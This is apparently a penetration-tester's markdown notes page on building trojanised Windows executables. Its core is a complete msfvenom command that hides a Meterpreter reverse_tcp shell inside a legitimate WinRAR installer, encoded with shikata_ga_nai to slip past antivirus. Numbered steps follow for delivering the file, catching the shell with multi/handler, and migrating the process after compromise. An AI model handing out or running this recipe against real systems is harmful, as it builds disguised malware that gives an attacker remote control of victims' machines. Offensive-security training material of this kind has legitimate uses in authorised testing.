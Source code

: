 ```yaml
---
up: "[[Client-Side Attacks]]"
---
```


# Injecting Payloads into Windows Portables Executables

- Inject your payload in a legitimate executable file.
	- winrar is a very popular choice

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<my_ip> LPORT=<port> -i 10 -e x86/shikata_ga_nai -f exe [-k] -x wrar.exe > winrar.exe
```

1. Transfer the malicious executable to the target system
2. Start the multi/handler module
3. Execute the executable on the target

> `-k` can be used to preserve legitimate executable functionalities. It doesn't work very often.

```bash
meterpreter > run post/windows/manage/migrate
```
